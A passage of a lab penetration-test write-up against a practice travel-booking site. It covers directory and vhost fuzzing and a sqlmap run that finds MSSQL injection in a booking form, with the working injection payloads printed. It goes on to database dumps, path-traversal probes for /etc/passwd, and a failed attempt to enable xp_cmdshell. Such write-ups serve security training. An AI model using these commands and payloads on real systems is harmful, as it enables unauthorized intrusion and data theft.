I will add the first IP to my local hosts file to be able to resolve DNS names since the DNS is not a public one and then I will move on with enumeration.

The first thig I did I checked for Comment leftovers in the main page HTML source code that could reveal some juicy informations if Webdevelopers maybe left us something, but nothing here so I will move forward.

I always like to start with enumerating all the Web directories available here:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u http://ascension-web01

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_ascension-web01/_23-06-22_12-19-58.txt

Target: http://ascension-web01/

[12:19:59] Starting:
[12:19:59] 403 -  312B  - /%2e%2e//google.com
[12:19:59] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[12:20:03] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[12:20:12] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[12:20:17] 200 -    5KB - /footer.php
[12:20:18] 200 -    2KB - /header.php
[12:20:19] 200 -   15KB - /index.php
[12:20:31] 301 -  153B  - /static  ->  http://ascension-web01/static/

Task Completed
```

Ok nothing special came out, I will do some extra fuzzing with other dictionaries that have complementary words but nothing came our that can help us anyhow.

Then as second step I like to check for possible Subdomains/vhost but here can be difficult since by fuzzing for vhosts we have to know the FQDN and we dont, so I did a test search by guessing out that main website will be something like daedalus.htb:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://daedalus.htb -H "Host:FUZZ.daedalus.htb" -fl 304

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://daedalus.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.daedalus.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 304
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 500 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
```

As we see here nothing really came out so I guess we have to check thru the website by hand and exploit it somehow.

Here I started by poking around and from what I see there are only 3 available php sites: Index, packages, about and the book one.

The Index and packages are not that important since the first one is just the main frame with all the links, the second list all the travel packages both are not giving any information or possible entry point.

The about one can shows us some possible users?

```HTML
<!--================Team Area =================-->
<section class="team_area">
    <div class="container">
        <div class="row d-flex justify-content-center">
            <div class="col-lg-12">
                <div class="main_title">
                    <p>Come meet us</p>
                    <h1>Intelligent Team Members</h1>
                    <span class="title-widget-bg"></span>
                </div>
            </div>
        </div>
        <div class="row team_inner">
            <div class="col-lg-3 col-md-6">
                <div class="team_item">
                    <div class="team_img">
                        
                        <div class="hover">
                            <h4>Nikolai Belinski</h4>
                            <p>The bad russian guy from every movie ever</p>
                        </div>
                    </div>
                </div>
            </div>
            <div class="col-lg-3 col-md-6">
                <div class="team_item">
                    <div class="team_img">
                        
                        <div class="hover">
                            <h4>Tank Dempsey</h4>
                            <p>Have some American Freedom</p>
                        </div>
                    </div>
                </div>
            </div>
            <div class="col-lg-3 col-md-6">
                <div class="team_item">
                    <div class="team_img">
                        
                        <div class="hover">
                            <h4>Edward Richtofen</h4>
                            <p>The Mad Scientist</p>
                        </div>
                    </div>
                </div>
            </div>
            <div class="col-lg-3 col-md-6">
                <div class="team_item">
                    <div class="team_img">
                        
                        <div class="hover">
                            <h4>Takeo Masaki</h4>
                            <p>Shikata Ga Nai</p>
                        </div>
                    </div>
                </div>
            </div>
        </div>
    </div>
</section>
<!--================End Team Area =================-->
```

And lasty the Book one seems more interesting to us:


Ok we have some kind of Form, here we have to see if is injectable somehow with SQLi, Command, XSS etc.

I will spin up a Burpsuite process and sniff in all the traffic to se exactly what goes on from to backend:



And we can see that the result is showed at the bottom:


So here I decided to start checking for SQLi, I spin an instance of SQLMAP:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# sqlmap -u http://ascension-web01/book-trip.php --batch --dbs --forms --crawl=2
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.6#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:52:35 /2023-06-22/

do you want to check for the existence of site's sitemap(.xml) [y/N] N
[12:52:35] [INFO] starting crawler for target URL 'http://ascension-web01/book-trip.php'
[12:52:35] [INFO] searching for links with depth 1
[12:52:35] [INFO] searching for links with depth 2
please enter number of threads? [Enter for 1 (current)] 1
[12:52:35] [WARNING] running in a single-thread mode. This could take a while
do you want to normalize crawling results [Y/n] Y
do you want to store crawling results to a temporary file for eventual further processing with other tools [y/N] N
[1/1] Form:
POST http://ascension-web01/book-trip.php
POST data: destination=&adults=&children=
do you want to test this form? [Y/n/q]
> Y
Edit POST data [default: destination=&adults=&children=] (Warning: blank fields detected): destination=&adults=&children=
do you want to fill blank fields with random values? [Y/n] Y
[12:52:40] [INFO] using '/root/.local/share/sqlmap/output/results-06222023_1252pm.csv' as the CSV results file in multiple targets mode
[12:52:40] [INFO] testing if the target URL content is stable
[12:52:40] [INFO] target URL content is stable
[12:52:40] [INFO] testing if POST parameter 'destination' is dynamic
[12:52:40] [WARNING] POST parameter 'destination' does not appear to be dynamic
[12:52:41] [INFO] heuristic (basic) test shows that POST parameter 'destination' might be injectable (possible DBMS: 'Microsoft SQL Server')
[12:52:41] [INFO] testing for SQL injection on POST parameter 'destination'
it looks like the back-end DBMS is 'Microsoft SQL Server'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'Microsoft SQL Server' extending provided level (1) and risk (1) values? [Y/n] Y
[12:52:41] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:52:43] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[12:52:44] [INFO] testing 'Generic inline queries'
[12:52:44] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - Parameter replace'
[12:52:44] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - Parameter replace (original value)'
[12:52:44] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - ORDER BY clause'
[12:52:44] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - ORDER BY clause (original value)'
[12:52:44] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - Stacked queries (IF)'
[12:52:47] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - Stacked queries'
[12:52:51] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[12:52:51] [INFO] POST parameter 'destination' is 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)' injectable
[12:52:51] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[12:52:51] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[12:53:01] [INFO] POST parameter 'destination' appears to be 'Microsoft SQL Server/Sybase stacked queries (comment)' injectable
[12:53:01] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[12:53:11] [INFO] POST parameter 'destination' appears to be 'Microsoft SQL Server/Sybase time-based blind (IF)' injectable
[12:53:11] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
POST parameter 'destination' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 134 HTTP(s) requests:
---
Parameter: destination (POST)
    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: destination=ZeaI' AND 9631 IN (SELECT (CHAR(113)+CHAR(112)+CHAR(107)+CHAR(120)+CHAR(113)+(SELECT (CASE WHEN (9631=9631) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(122)+CHAR(113)+CHAR(98)+CHAR(113)))-- fugh&adults=nmFs&children=KJWy

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: destination=ZeaI';WAITFOR DELAY '0:0:5'--&adults=nmFs&children=KJWy

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: destination=ZeaI' WAITFOR DELAY '0:0:5'-- OUvs&adults=nmFs&children=KJWy
---
do you want to exploit this SQL injection? [Y/n] Y
[12:53:11] [INFO] testing Microsoft SQL Server
[12:53:11] [INFO] confirming Microsoft SQL Server
[12:53:12] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2016 or 2022 or 2019 or 10 or 11
web application technology: Microsoft IIS 10.0, PHP 7.3.7
back-end DBMS: Microsoft SQL Server 2017
[12:53:12] [INFO] fetching database names
[12:53:12] [INFO] retrieved: 'daedalus'
[12:53:12] [INFO] retrieved: 'logs'
[12:53:12] [INFO] retrieved: 'master'
[12:53:12] [INFO] retrieved: 'model'
[12:53:12] [INFO] retrieved: 'msdb'
[12:53:12] [INFO] retrieved: 'tempdb'
available databases [6]:
[*] daedalus
[*] logs
[*] master
[*] model
[*] msdb
[*] tempdb

[12:53:12] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/root/.local/share/sqlmap/output/results-06222023_1252pm.csv'

[*] ending @ 12:53:12 /2023-06-22/
```

Good we have a SQLi and a list of DBses, now let's contiune with dumping the tables available:

```Bash
Database: daedalus
[4 tables]
+-----------+
| Countries |
| Flights   |
| packages  |
| proxies   |
+-----------+

[12:57:55] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/root/.local/share/sqlmap/output/results-06222023_1257pm.csv'

[*] ending @ 12:57:55 /2023-06-22/
```

Then wiith Countries:

```Bash
Database: daedalus
Table: Countries
[239 entries]
+-----+-----+---------+----------------------------------------------+---------+-----------+
| Id  | Iso | Iso3    | Name                                         | NumCode | PhoneCode |
+-----+-----+---------+----------------------------------------------+---------+-----------+
| 5   | AD  | AFG     | Afghanistan                                  | 4       | 93        |
| 224 | AE  | ALB     | Albania                                      | 8       | 355       |
| 1   | AF  | DZA     | Algeria                                      | 12      | 213       |
| 9   | AG  | ASM     | American Samoa                               | 16      | 1684      |
| 7   | AI  | AND     | Andorra                                      | 20      | 376       |
| 2   | AL  | AGO     | Angola                                       | 24      | 244       |
| 11  | AM  | AIA     | Anguilla                                     | 660     | 1264      |
| 151 | AN  | <blank> | Antarctica                                   | <blank> | 0         |
| 6   | AO  | ATG     | Antigua and Barbuda                          | 28      | 1268      |
| 8   | AQ  | ARG     | Argentina                                    | 32      | 54        |
| 10  | AR  | ARM     | Armenia                                      | 51      | 374       |
| 4   | AS  | ABW     | Aruba                                        | 533     | 297       |
| 14  | AT  | AUS     | Australia                                    | 36      | 61        |
| 13  | AU  | AUT     | Austria                                      | 40      | 43        |
| 12  | AW  | AZE     | Azerbaijan                                   | 31      | 994       |
| 15  | AZ  | BHS     | Bahamas                                      | 44      | 1242      |
| 27  | BA  | BHR     | Bahrain                                      | 48      | 973       |
| 19  | BB  | BGD     | Bangladesh                                   | 50      | 880       |
| 18  | BD  | BRB     | Barbados                                     | 52      | 1246      |
| 21  | BE  | BLR     | Belarus                                      | 112     | 375       |
| 34  | BF  | BEL     | Belgium                                      | 56      | 32        |
| 33  | BG  | BLZ     | Belize                                       | 84      | 501       |
| 17  | BH  | BEN     | Benin                                        | 204     | 229       |
| 35  | BI  | BMU     | Bermuda                                      | 60      | 1441      |
| 23  | BJ  | BTN     | Bhutan                                       | 64      | 975       |
| 24  | BM  | BOL     | Bolivia                                      | 68      | 591       |
| 32  | BN  | BIH     | Bosnia and Herzegovina                       | 70      | 387       |
| 26  | BO  | BWA     | Botswana                                     | 72      | 267       |
| 30  | BR  | <blank> | Bouvet Island                                | <blank> | 0         |
| 16  | BS  | BRA     | Brazil                                       | 76      | 55        |
| 25  | BT  | <blank> | British Indian Ocean Territory               | <blank> | 246       |
| 29  | BV  | BRN     | Brunei Darussalam                            | 96      | 673       |
| 28  | BW  | BGR     | Bulgaria                                     | 100     | 359       |
| 20  | BY  | BFA     | Burkina Faso                                 | 854     | 226       |
| 22  | BZ  | BDI     | Burundi                                      | 108     | 257       |
| 38  | CA  | KHM     | Cambodia                                     | 116     | 855       |
| 46  | CC  | CMR     | Cameroon                                     | 120     | 237       |
| 50  | CD  | CAN     | Canada                                       | 124     | 1         |
| 41  | CF  | CPV     | Cape Verde                                   | 132     | 238       |
| 49  | CG  | CYM     | Cayman Islands                               | 136     | 1345      |
| 206 | CH  | CAF     | Central African Republic                     | 140     | 236       |
| 53  | CI  | TCD     | Chad                                         | 148     | 235       |
| 51  | CK  | CHL     | Chile                                        | 152     | 56        |
| 43  | CL  | CHN     | China                                        | 156     | 86        |
| 37  | CM  | <blank> | Christmas Island                             | <blank> | 61        |
| 44  | CN  | <blank> | Cocos (Keeling) Islands                      | <blank> | 672       |
| 47  | CO  | COL     | Colombia                                     | 170     | 57        |
| 52  | CR  | COM     | Comoros                                      | 174     | 269       |
| 189 | CS  | COG     | Congo                                        | 178     | 242       |
| 55  | CU  | COD     | Congo, the Democratic Republic of the        | 180     | 242       |
| 39  | CV  | COK     | Cook Islands                                 | 184     | 682       |
| 45  | CX  | CRI     | Costa Rica                                   | 188     | 506       |
| 56  | CY  | CIV     | Cote D'Ivoire                                | 384     | 225       |
| 57  | CZ  | HRV     | Croatia                                      | 191     | 385       |
| 80  | DE  | CUB     | Cuba                                         | 192     | 53        |
| 59  | DJ  | CYP     | Cyprus                                       | 196     | 357       |
| 58  | DK  | CZE     | Czech Republic                               | 203     | 420       |
| 60  | DM  | DNK     | Denmark                                      | 208     | 45        |
| 61  | DO  | DJI     | Djibouti                                     | 262     | 253       |
| 3   | DZ  | DMA     | Dominica                                     | 212     | 1767      |
| 62  | EC  | DOM     | Dominican Republic                           | 214     | 1809      |
| 67  | EE  | ECU     | Ecuador                                      | 218     | 593       |
| 63  | EG  | EGY     | Egypt                                        | 818     | 20        |
| 236 | EH  | SLV     | El Salvador                                  | 222     | 503       |
| 66  | ER  | GNQ     | Equatorial Guinea                            | 226     | 240       |
| 199 | ES  | ERI     | Eritrea                                      | 232     | 291       |
| 68  | ET  | EST     | Estonia                                      | 233     | 372       |
| 72  | FI  | ETH     | Ethiopia                                     | 231     | 251       |
| 71  | FJ  | FLK     | Falkland Islands (Malvinas)                  | 238     | 500       |
| 69  | FK  | FRO     | Faroe Islands                                | 234     | 298       |
| 139 | FM  | FJI     | Fiji                                         | 242     | 679       |
| 70  | FO  | FIN     | Finland                                      | 246     | 358       |
| 73  | FR  | FRA     | France                                       | 250     | 33        |
| 77  | GA  | GUF     | French Guiana                                | 254     | 594       |
| 225 | GB  | PYF     | French Polynesia                             | 258     | 689       |
| 85  | GD  | <blank> | French Southern Territories                  | <blank> | 0         |
| 79  | GE  | GAB     | Gabon                                        | 266     | 241       |
| 74  | GF  | GMB     | Gambia                                       | 270     | 220       |
| 81  | GH  | GEO     | Georgia                                      | 268     | 995       |
| 82  | GI  | DEU     | Germany                                      | 276     | 49        |
| 84  | GL  | GHA     | Ghana                                        | 288     | 233       |
| 78  | GM  | GIB     | Gibraltar                                    | 292     | 350       |
| 89  | GN  | GRC     | Greece                                       | 300     | 30        |
| 86  | GP  | GRL     | Greenland                                    | 304     | 299       |
| 65  | GQ  | GRD     | Grenada                                      | 308     | 1473      |
| 83  | GR  | GLP     | Guadeloupe                                   | 312     | 590       |
| 198 | GS  | GUM     | Guam                                         | 316     | 1671      |
| 88  | GT  | GTM     | Guatemala                                    | 320     | 502       |
| 87  | GU  | GIN     | Guinea                                       | 324     | 224       |
| 90  | GW  | GNB     | Guinea-Bissau                                | 624     | 245       |
| 91  | GY  | GUY     | Guyana                                       | 328     | 592       |
| 96  | HK  | HTI     | Haiti                                        | 332     | 509       |
| 93  | HM  | <blank> | Heard Island and Mcdonald Islands            | <blank> | 0         |
| 95  | HN  | VAT     | Holy See (Vatican City State)                | 336     | 39        |
| 54  | HR  | HND     | Honduras                                     | 340     | 504       |
| 92  | HT  | HKG     | Hong Kong                                    | 344     | 852       |
| 97  | HU  | HUN     | Hungary                                      | 348     | 36        |
| 100 | ID  | ISL     | Iceland                                      | 352     | 354       |
| 103 | IE  | IND     | India                                        | 356     | 91        |
| 104 | IL  | IDN     | Indonesia                                    | 360     | 62        |
| 99  | IN  | IRN     | Iran, Islamic Republic of                    | 364     | 98        |
| 31  | IO  | IRQ     | Iraq                                         | 368     | 964       |
| 102 | IQ  | IRL     | Ireland                                      | 372     | 353       |
| 101 | IR  | ISR     | Israel                                       | 376     | 972       |
| 98  | IS  | ITA     | Italy                                        | 380     | 39        |
| 105 | IT  | JAM     | Jamaica                                      | 388     | 1876      |
| 106 | JM  | JPN     | Japan                                        | 392     | 81        |
| 108 | JO  | JOR     | Jordan                                       | 400     | 962       |
| 107 | JP  | KAZ     | Kazakhstan                                   | 398     | 7         |
| 110 | KE  | KEN     | Kenya                                        | 404     | 254       |
| 115 | KG  | KIR     | Kiribati                                     | 296     | 686       |
| 36  | KH  | PRK     | Korea, Democratic People's Republic of       | 408     | 850       |
| 111 | KI  | KOR     | Korea, Republic of                           | 410     | 82        |
| 48  | KM  | KWT     | Kuwait                                       | 414     | 965       |
| 180 | KN  | KGZ     | Kyrgyzstan                                   | 417     | 996       |
| 112 | KP  | LAO     | Lao People's Democratic Republic             | 418     | 856       |
| 113 | KR  | LVA     | Latvia                                       | 428     | 371       |
| 114 | KW  | LBN     | Lebanon                                      | 422     | 961       |
| 40  | KY  | LSO     | Lesotho                                      | 426     | 266       |
| 109 | KZ  | LBR     | Liberia                                      | 430     | 231       |
| 116 | LA  | LBY     | Libyan Arab Jamahiriya                       | 434     | 218       |
| 118 | LB  | LIE     | Liechtenstein                                | 438     | 423       |
| 181 | LC  | LTU     | Lithuania                                    | 440     | 370       |
| 122 | LI  | LUX     | Luxembourg                                   | 442     | 352       |
| 200 | LK  | MAC     | Macao                                        | 446     | 853       |
| 120 | LR  | MKD     | Macedonia, the Former Yugoslav Republic of   | 807     | 389       |
| 119 | LS  | MDG     | Madagascar                                   | 450     | 261       |
| 123 | LT  | MWI     | Malawi                                       | 454     | 265       |
| 124 | LU  | MYS     | Malaysia                                     | 458     | 60        |
| 117 | LV  | MDV     | Maldives                                     | 462     | 960       |
| 121 | LY  | MLI     | Mali                                         | 466     | 223       |
| 144 | MA  | MLT     | Malta                                        | 470     | 356       |
| 141 | MC  | MHL     | Marshall Islands                             | 584     | 692       |
| 140 | MD  | MTQ     | Martinique                                   | 474     | 596       |
| 127 | MG  | MRT     | Mauritania                                   | 478     | 222       |
| 133 | MH  | MUS     | Mauritius                                    | 480     | 230       |
| 126 | MK  | <blank> | Mayotte                                      | <blank> | 269       |
| 131 | ML  | MEX     | Mexico                                       | 484     | 52        |
| 146 | MM  | FSM     | Micronesia, Federated States of              | 583     | 691       |
| 142 | MN  | MDA     | Moldova, Republic of                         | 498     | 373       |
| 125 | MO  | MCO     | Monaco                                       | 492     | 377       |
| 159 | MP  | MNG     | Mongolia                                     | 496     | 976       |
| 134 | MQ  | MSR     | Montserrat                                   | 500     | 1664      |
| 135 | MR  | MAR     | Morocco                                      | 504     | 212       |
| 143 | MS  | MOZ     | Mozambique                                   | 508     | 258       |
| 132 | MT  | MMR     | Myanmar                                      | 104     | 95        |
| 136 | MU  | NAM     | Namibia                                      | 516     | 264       |
| 130 | MV  | NRU     | Nauru                                        | 520     | 674       |
| 128 | MW  | NPL     | Nepal                                        | 524     | 977       |
| 138 | MX  | NLD     | Netherlands                                  | 528     | 31        |
| 129 | MY  | ANT     | Netherlands Antilles                         | 530     | 599       |
| 145 | MZ  | NCL     | New Caledonia                                | 540     | 687       |
| 147 | NA  | NZL     | New Zealand                                  | 554     | 64        |
| 152 | NC  | NIC     | Nicaragua                                    | 558     | 505       |
| 155 | NE  | NER     | Niger                                        | 562     | 227       |
| 158 | NF  | NGA     | Nigeria                                      | 566     | 234       |
| 156 | NG  | NIU     | Niue                                         | 570     | 683       |
| 154 | NI  | NFK     | Norfolk Island                               | 574     | 672       |
| 150 | NL  | MNP     | Northern Mariana Islands                     | 580     | 1670      |
| 160 | NO  | NOR     | Norway                                       | 578     | 47        |
| 149 | NP  | OMN     | Oman                                         | 512     | 968       |
| 148 | NR  | PAK     | Pakistan                                     | 586     | 92        |
| 157 | NU  | PLW     | Palau                                        | 585     | 680       |
| 153 | NZ  | <blank> | Palestinian Territory, Occupied              | <blank> | 970       |
| 161 | OM  | PAN     | Panama                                       | 591     | 507       |
| 165 | PA  | PNG     | Papua New Guinea                             | 598     | 675       |
| 168 | PE  | PRY     | Paraguay                                     | 600     | 595       |
| 75  | PF  | PER     | Peru                                         | 604     | 51        |
| 166 | PG  | PHL     | Philippines                                  | 608     | 63        |
| 169 | PH  | PCN     | Pitcairn                                     | 612     | 0         |
| 162 | PK  | POL     | Poland                                       | 616     | 48        |
| 171 | PL  | PRT     | Portugal                                     | 620     | 351       |
| 182 | PM  | PRI     | Puerto Rico                                  | 630     | 1787      |
| 170 | PN  | QAT     | Qatar                                        | 634     | 974       |
| 173 | PR  | REU     | Reunion                                      | 638     | 262       |
| 164 | PS  | ROM     | Romania                                      | 642     | 40        |
| 172 | PT  | RUS     | Russian Federation                           | 643     | 70        |
| 163 | PW  | RWA     | Rwanda                                       | 646     | 250       |
| 167 | PY  | SHN     | Saint Helena                                 | 654     | 290       |
| 174 | QA  | KNA     | Saint Kitts and Nevis                        | 659     | 1869      |
| 175 | RE  | LCA     | Saint Lucia                                  | 662     | 1758      |
| 176 | RO  | SPM     | Saint Pierre and Miquelon                    | 666     | 508       |
| 177 | RU  | VCT     | Saint Vincent and the Grenadines             | 670     | 1784      |
| 178 | RW  | WSM     | Samoa                                        | 882     | 684       |
| 187 | SA  | SMR     | San Marino                                   | 674     | 378       |
| 195 | SB  | STP     | Sao Tome and Principe                        | 678     | 239       |
| 190 | SC  | SAU     | Saudi Arabia                                 | 682     | 966       |
| 201 | SD  | SEN     | Senegal                                      | 686     | 221       |
| 205 | SE  | <blank> | Serbia and Montenegro                        | <blank> | 381       |
| 192 | SG  | SYC     | Seychelles                                   | 690     | 248       |
| 179 | SH  | SLE     | Sierra Leone                                 | 694     | 232       |
| 194 | SI  | SGP     | Singapore                                    | 702     | 65        |
| 203 | SJ  | SVK     | Slovakia                                     | 703     | 421       |
| 193 | SK  | SVN     | Slovenia                                     | 705     | 386       |
| 191 | SL  | SLB     | Solomon Islands                              | 90      | 677       |
| 185 | SM  | SOM     | Somalia                                      | 706     | 252       |
| 188 | SN  | ZAF     | South Africa                                 | 710     | 27        |
| 196 | SO  | <blank> | South Georgia and the South Sandwich Islands | <blank> | 0         |
| 202 | SR  | ESP     | Spain                                        | 724     | 34        |
| 186 | ST  | LKA     | Sri Lanka                                    | 144     | 94        |
| 64  | SV  | SDN     | Sudan                                        | 736     | 249       |
| 207 | SY  | SUR     | Suriname                                     | 740     | 597       |
| 204 | SZ  | SJM     | Svalbard and Jan Mayen                       | 744     | 47        |
| 220 | TC  | SWZ     | Swaziland                                    | 748     | 268       |
| 42  | TD  | SWE     | Sweden                                       | 752     | 46        |
| 76  | TF  | CHE     | Switzerland                                  | 756     | 41        |
| 213 | TG  | SYR     | Syrian Arab Republic                         | 760     | 963       |
| 211 | TH  | TWN     | Taiwan, Province of China                    | 158     | 886       |
| 209 | TJ  | TJK     | Tajikistan                                   | 762     | 992       |
| 214 | TK  | TZA     | Tanzania, United Republic of                 | 834     | 255       |
| 212 | TL  | THA     | Thailand                                     | 764     | 66        |
| 219 | TM  | <blank> | Timor-Leste                                  | <blank> | 670       |
| 217 | TN  | TGO     | Togo                                         | 768     | 228       |
| 215 | TO  | TKL     | Tokelau                                      | 772     | 690       |
| 218 | TR  | TON     | Tonga                                        | 776     | 676       |
| 216 | TT  | TTO     | Trinidad and Tobago                          | 780     | 1868      |
| 221 | TV  | TUN     | Tunisia                                      | 788     | 216       |
| 208 | TW  | TUR     | Turkey                                       | 792     | 90        |
| 210 | TZ  | TKM     | Turkmenistan                                 | 795     | 7370      |
| 223 | UA  | TCA     | Turks and Caicos Islands                     | 796     | 1649      |
| 222 | UG  | TUV     | Tuvalu                                       | 798     | 688       |
| 227 | UM  | UGA     | Uganda                                       | 800     | 256       |
| 226 | US  | UKR     | Ukraine                                      | 804     | 380       |
| 228 | UY  | ARE     | United Arab Emirates                         | 784     | 971       |
| 229 | UZ  | GBR     | United Kingdom                               | 826     | 44        |
| 94  | VA  | USA     | United States                                | 840     | 1         |
| 183 | VC  | <blank> | United States Minor Outlying Islands         | <blank> | 1         |
| 231 | VE  | URY     | Uruguay                                      | 858     | 598       |
| 233 | VG  | UZB     | Uzbekistan                                   | 860     | 998       |
| 234 | VI  | VUT     | Vanuatu                                      | 548     | 678       |
| 232 | VN  | VEN     | Venezuela                                    | 862     | 58        |
| 230 | VU  | VNM     | Viet Nam                                     | 704     | 84        |
| 235 | WF  | VGB     | Virgin Islands, British                      | 92      | 1284      |
| 184 | WS  | VIR     | Virgin Islands, U.s.                         | 850     | 1340      |
| 237 | YE  | WLF     | Wallis and Futuna                            | 876     | 681       |
| 137 | YT  | ESH     | Western Sahara                               | 732     | 212       |
| 197 | ZA  | YEM     | Yemen                                        | 887     | 967       |
| 238 | ZM  | ZMB     | Zambia                                       | 894     | 260       |
| 239 | ZW  | ZWE     | Zimbabwe                                     | 716     | 263       |
+-----+-----+---------+----------------------------------------------+---------+-----------+
```

Then with Flights:

```Bash
Database: daedalus
Table: Flights
[2 entries]
+----+-------+-------+---------+-------------+
| id | price | seats | origin  | destination |
+----+-------+-------+---------+-------------+
| 1  | 300   | 500   | Germany | Greece      |
| 2  | 300   | 500   | Spain   | Australia   |
```

Then with packages:

```Bash
Database: daedalus
Table: packages
[11 entries]
+----+----------+-------------+
| id | discount | destination |
+----+----------+-------------+
| 1  | 20       | Greece      |
| 2  | 20       | Australia   |
| 3  | 50       | Germany     |
| 4  | 40       | China       |
| 5  | 10       | Israel      |
| 6  | 20       | Turkey      |
| 7  | 20       | Italy       |
| 8  | 20       | Albania     |
| 9  | 26       | Ukrane      |
| 10 | 78       | Poland      |
| 11 | 34       | Spain       |
+----+----------+-------------+
```

And lastly proxies which showed us a possible username and permissions with processes id?

```Bash
Database: daedalus
Table: proxies
[2 entries]
+----------+--------------+------------+----------------+
| proxy_id | subsystem_id | proxy_name | subsystem_name |
+----------+--------------+------------+----------------+
| 1        | 3            | svc_dev    | CmdExec        |
| 1        | 12           | svc_dev    | PowerShell     |
+----------+--------------+------------+----------------+
```

So here we have a username for a service account but nothing much more, I tried to check if xp_Cmdshell was available but apparelty is not:

```Bash
[13:15:30] [INFO] retrieved: 'C:\\Program Files\\Microsoft SQL Server\\MSSQL14.MSSQLSERVER\\MSSQL\\Log\\ERRORLOG'
[13:15:30] [INFO] testing if current user is DBA
[13:15:30] [WARNING] functionality requested probably does not work because the current session user is not a database administrator. You can try to use option '--dbms-cred' to execute statements as a DBA user if you were able to extract and crack a DBA password by any mean
[13:15:30] [INFO] checking if xp_cmdshell extended procedure is available, please wait..
[13:15:30] [WARNING] time-based standard deviation method used on a model with less than 30 response times
xp_cmdshell extended procedure does not seem to be available. Do you want sqlmap to try to re-enable it? [Y/n] Y
[13:15:31] [WARNING] time-based standard deviation method used on a model with less than 30 response times
[13:15:31] [WARNING] xp_cmdshell re-enabling failed
[13:15:31] [INFO] creating xp_cmdshell with sp_OACreate
[13:15:31] [WARNING] time-based standard deviation method used on a model with less than 30 response times
[13:15:31] [WARNING] xp_cmdshell creation failed, probably because sp_OACreate is disabled
[13:15:31] [ERROR] unable to proceed without xp_cmdshell, skipping to the next target
[13:15:31] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/root/.local/share/sqlmap/output/results-06222023_0115pm.csv'
```

But then lloking around in the SQLMAP help there are several options for SQLshells; we tried the OS one but there are more:

